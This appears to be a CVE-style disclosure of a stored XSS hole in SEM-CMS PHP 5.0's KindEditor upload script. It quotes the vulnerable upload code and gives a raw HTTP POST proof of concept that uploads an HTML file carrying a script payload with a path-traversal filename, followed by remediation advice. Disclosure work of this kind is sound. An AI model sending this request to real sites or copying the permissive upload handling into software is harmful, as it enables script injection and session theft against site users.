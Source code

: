### Security Vulnerability Report for CVE Submission

#### 1. Stored XSS Vulnerability

**Download Link:** [SEM-CMS PHP v5.0](https://www.sem-cms.com/TradeCmsdown/php/semcms_php_5.0.zip)

```php
<?php
/**
 * KindEditor PHP
 *
 * This PHP script is a demonstration and should not be used directly in production projects.
 * If you decide to use this script, please carefully review the relevant security settings before use.
 */

require_once 'JSON.php';

$php_path = dirname(__FILE__) . '/';
$php_url = dirname($_SERVER['PHP_SELF']) . '/';

// File save directory path
$save_path = $php_path . '../../Images/attached/';
// File save directory URL
$save_url = $php_url . '../../Images/attached/';
// Allowed file extensions
$ext_arr = array(
	'image' => array('gif', 'jpg', 'jpeg', 'png', 'bmp'),
	'flash' => array('swf', 'flv'),
	'media' => array('swf', 'flv', 'mp3', 'wav', 'wma', 'wmv', 'mid', 'avi', 'mpg', 'asf', 'rm', 'rmvb'),
	'file' => array('doc', 'docx', 'xls', 'xlsx', 'ppt', 'htm', 'html', 'txt', 'zip', 'rar', 'gz', 'bz2'),
);
// Maximum file size
$max_size = 1000000;

$save_path = realpath($save_path) . '/';

// PHP upload failure
if (!empty($_FILES['imgFile']['error'])) {
	switch ($_FILES['imgFile']['error']) {
		case '1':
			$error = 'Exceeds the allowed size by php.ini.';
			break;
		case '2':
			$error = 'Exceeds the form allowed size.';
			break;
		case '3':
			$error = 'Only part of the image was uploaded.';
			break;
		case '4':
			$error = 'Please select an image.';
			break;
		case '6':
			$error = 'Temporary directory not found.';
			break;
		case '7':
			$error = 'Error writing file to disk.';
			break;
		case '8':
			$error = 'File upload stopped by extension.';
			break;
		case '999':
		default:
			$error = 'Unknown error.';
	}
	alert($error);
}

// When there is an uploaded file
if (empty($_FILES) === false) {
	// Original filename
	$file_name = $_FILES['imgFile']['name'];
	// Temporary server filename
	$tmp_name = $_FILES['imgFile']['tmp_name'];
	// File size
	$file_size = $_FILES['imgFile']['size'];
	// Check filename
	if (!$file_name) {
		alert("Please select a file.");
	}
	// Check directory
	if (@is_dir($save_path) === false) {
		alert("Upload directory does not exist.");
	}
	// Check directory write permissions
	if (@is_writable($save_path) === false) {
		alert("Upload directory does not have write permissions.");
	}
	// Check if file was uploaded
	if (@is_uploaded_file($tmp_name) === false) {
		alert("Upload failed.");
	}
	// Check file size
	if ($file_size > $max_size) {
		alert("Uploaded file size exceeds limit.");
	}
	// Check directory name
	$dir_name = empty($_GET['dir']) ? 'image' : trim($_GET['dir']);
	if (empty($ext_arr[$dir_name])) {
		alert("Invalid directory name.");
	}
	// Get file extension
	$temp_arr = explode(".", $file_name);
	$file_ext = array_pop($temp_arr);
	$file_ext = trim($file_ext);
	$file_ext = strtolower($file_ext);
	// Check extension
	if (in_array($file_ext, $ext_arr[$dir_name]) === false) {
		alert("Uploaded file extension is not allowed.\nOnly " . implode(",", $ext_arr[$dir_name]) . " formats are allowed.");
	}
	// Create directory
	if ($dir_name !== '') {
		$save_path .= $dir_name . "/";
		$save_url .= $dir_name . "/";
		if (!file_exists($save_path)) {
			mkdir($save_path);
		}
	}
	$ymd = date("Ymd");
	$save_path .= $ymd . "/";
	$save_url .= $ymd . "/";
	if (!file_exists($save_path)) {
		mkdir($save_path);
	}
	// New filename
	$new_file_name = date("YmdHis") . '_' . rand(10000, 99999) . '.' . $file_ext;
	// Move file
	$file_path = $save_path . $new_file_name;
	if (move_uploaded_file($tmp_name, $file_path) === false) {
		alert("Failed to move uploaded file.");
	}
	@chmod($file_path, 0644);
	$file_url = $save_url . $new_file_name;

	header('Content-type: text/html; charset=UTF-8');
	$json = new Services_JSON();
	echo $json->encode(array('error' => 0, 'url' => $file_url));
	exit;
}

function alert($msg) {
	header('Content-type: text/html; charset=UTF-8');
	$json = new Services_JSON();
	echo $json->encode(array('error' => 1, 'message' => $msg));
	exit;
}
```

**Attack Vector:**

```
POST //Edit/php/upload_json.php?dir=file HTTP/1.1
Host: 111.231.1.116:82
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUXoPLk1h1J5BweQB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Content-Length: 224

------WebKitFormBoundaryUXoPLk1h1J5BweQB
Content-Disposition: form-data; name="imgFile"; filename="../../test.html"
Content-Type: image/jpeg

ByPassWaf<script>alert(1)</script>
------WebKitFormBoundaryUXoPLk1h1J5BweQB--
```

![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1739275216782.png)

![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1739275246786.png)

---

### Summary

The provided code contains a stored Cross-Site Scripting (XSS) vulnerability due to insufficient input validation and sanitization. An attacker can exploit this vulnerability by uploading a malicious HTML file containing JavaScript code that gets executed when accessed by other users or administrators.

**Steps to Reproduce:**
1. Upload a file with a `.html` extension containing malicious JavaScript code.
2. The uploaded file is saved in the web-accessible directory.
3. Access the uploaded file through its URL, triggering the stored XSS attack.

**Impact:**
- Potential theft of user credentials.
- Session hijacking.
- Defacement of the website.
- Spread of malware.

**Recommendations:**
1. Implement proper input validation and sanitization for all user inputs.
2. Use a Content Security Policy (CSP) to mitigate XSS attacks.
3. Ensure files uploaded do not contain executable scripts.
4. Regularly audit and update your security practices to prevent similar vulnerabilities.